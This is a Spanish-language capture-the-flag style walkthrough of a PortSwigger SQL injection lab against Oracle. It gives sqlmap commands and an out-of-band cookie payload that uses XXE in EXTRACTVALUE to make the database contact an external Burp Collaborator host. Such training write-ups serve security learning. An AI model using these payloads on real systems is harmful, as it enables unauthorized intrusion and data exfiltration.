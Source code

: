 ```yaml
---
title: Blind SQL injection with out-of-band interaction
date: 2025-02-11 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Out Of Band)
  - Blind SQL injection with out-of-band interaction
  - Oracle Database
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `Blind SQL Injection`, la aplicación utiliza una `cookie` de seguimiento para análisis y realiza una `consulta SQL` que incluye el valor de la cookie enviada. La `consulta SQL` se ejecuta de forma asíncrona y no afecta la respuesta de la aplicación. Sin embargo, puedes `desencadenar` interacciones `out-of-band` con un `dominio externo`. Para `resolver el laboratorio`, hay que explotar la `vulnerabilidad` de `inyección SQL` para provocar una consulta `DNS` a `Burp Collaborator`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-16/image_1.png)

Hay algunas `Out-of-Band SQL Injections` que no pueden ser detectadas o explotadas por `sqlmap`. En estas situaciones podemos `realizar` un `escaneo completo` con `Burpsuite` para `detectarlas`, para ello, debemos `capturar` la `petición` y pulsar `click derecho > Scan`

![](/assets/img/SQLI-Lab-16/image_2.png)

Posteriormente se nos `abrirá` esta `ventana`, en la cual debemos de `seleccionar` la opción `Crawl and audit`

![](/assets/img/SQLI-Lab-16/image_3.png)

Posteriormente deberemos `seleccionar` la `configuración` del `escaneo`. Recomendaría usar `Deep`, ya que, es el más `completo`. Una vez seleccionadas estas opciones `pulsamos` sobre `Scan`

![](/assets/img/SQLI-Lab-16/image_4.png)

Si nos dirigimos a `Dashboard` veremos que nos `detecta` la `inyección SQL`

![](/assets/img/SQLI-Lab-16/image_5.png)

Otra opción más específica es `escanear` los `insertion points`. Para ello, `enviamos` la `petición` al `Intruder` y `seleccionamos` los `insertion points` a `analizar`

![](/assets/img/SQLI-Lab-16/image_6.png)

Posteriormente pulsamos `click derecho > Scan defined insertion points > Open scan launcher`, seleccionamos `Audit selected items` y `pulsamos` sobre `Scan`

![](/assets/img/SQLI-Lab-16/image_7.png)

![](/assets/img/SQLI-Lab-16/image_8.png)

Si nos dirigimos a `Dashboard` veremos que también nos `detecta` la `inyección SQL`

![](/assets/img/SQLI-Lab-16/image_9.png)

También es posible detectar las `Out-of-Band SQL Injections` mediante `sqlmap`. Para ello, necesitamos `instalar` la `extensión` de `Burpsuite` llamada `SQLMAP DNS Collaborator`

![](/assets/img/SQLI-Lab-16/image_10.png)

Una vez instalada nos dirigimos a `Extensions > Installed` y pulsamos sobre el `nombre de la extensión`. Vemos que en la `primera línea` nos muestra un servidor `--dns-domain=gm6n1v54k2yapzbqc1di32ti59bzzo.oastify.com`, este es el que debemos usar al ejecutar `sqlmap`

![](/assets/img/SQLI-Lab-16/image_11.png)

Cada vez que queramos un `nuevo servidor` debemos `pulsar` sobre el `cuadro de texto` de la `extensión` para `desactivarla` y luego `pulsar nuevamente` para cargarla

![](/assets/img/SQLI-Lab-16/image_12.png)

Ejecutamos `sqlmap` con `sudo`

```
# sudo sqlmap -u https://0a8000ee030f0a7b80b708ab00fe001a.web-security-academy.net/ --risk=3 --level=5 --random-agent --batch --dbs --cookie="TrackingId=ltMxaizgXCdtiCXN*; session=ekfByIBkIPxRiuEoPiRItaXMNC3HwXSB" --dns-domain=gm6n1v54k2yapzbqc1di32ti59bzzo.oastify.com --dbms oracle
```

Si encuentra algo, se `mostrará` en el apartado de `Show in UI`

![](/assets/img/SQLI-Lab-16/image_13.png)

Como alternativa, podemos usar `sqlmapsh` [https://github.com/unlock-security/sqlmapsh.git](https://github.com/unlock-security/sqlmapsh.git). Se usaría de la misma forma que `sqlmap`, pero no es necesario proporcionar el parámetro `--dns-domain`, ya que lo hace internamente

```
# sudo sqlmapsh -u https://0a8000ee030f0a7b80b708ab00fe001a.web-security-academy.net --risk=3 --level=5 --random-agent --dbs --batch --cookie="TrackingId=ltMxaizgXCdtiCXN*; session=ekfByIBkIPxRiuEoPiRItaXMNC3HwXSB"
```

Este `laboratorio` no se puede resolver usando `sqlmap` o `sqlmapsh`. La única forma que hay de `identificar` la `inyección SQL` es `manualmente` o mediante el `escáner` de `Burpsuite`. Si `capturamos` la `petición` a la web con `Burpsuite` vemos un campo llamado `TrackingId`, probando los `payload` de [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). En este caso vamos a usar este `payload`

![](/assets/img/SQLI-Lab-16/image_14.png)

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)-- - 
```

Antes de enviar la petición debemos hacer `click` en `Collaborator > Copy to clipboard`. Sustituimos el campo `BURP-COLLABORATOR-SUBDOMAIN` por el `subdominio` copiado 

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ek2f0ugba257uzxtntvmsb5twk2bq2er.oastify.com/"> %remote;]>'),'/l') FROM dual)-- - ; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Una vez hecho esto debemos `urlencodear` el `payload` y `enviar` la `petición`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//ek2f0ugba257uzxtntvmsb5twk2bq2er.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--+-+; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Si nos dirigimos a la parte de `Collaborator` y pulsamos en `Poll now` nos llegarán las `peticiones` a nuestro servidor

![](/assets/img/SQLI-Lab-16/image_15.png)
